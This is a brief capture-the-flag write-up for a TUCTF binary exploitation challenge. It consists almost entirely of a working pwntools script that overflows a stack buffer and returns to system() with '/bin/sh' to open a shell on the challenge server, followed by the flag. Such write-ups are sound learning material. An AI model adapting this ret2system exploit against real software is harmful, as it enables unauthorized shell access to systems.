 Solved by Dan
Just a standard stack overflow, NX but no Canary. We can stick “/bin/sh” in our username and jump to system

#!/usr/bin/env python3.7
import pwn

MAIN = 0x08049709
USERNAME = 0x0804c080
SYSTEM = 0x080490b0
BUFFER_SIZE = 0x48

PAYLOAF = b'a' * (BUFFER_SIZE + 4) + pwn.p32(SYSTEM) + pwn.p32(0) + pwn.p32(USERNAME)
r = pwn.remote('chal.tuctf.com', 30500)
r.sendline('/bin/sh')
r.sendline('1')
r.sendline('2')
r.sendline(PAYLOAF)
r.interactive()

TUCTF{f1l73r_f1r57_7h3y_541d._y0u'll_b3_53cur3_7h3y_541d}

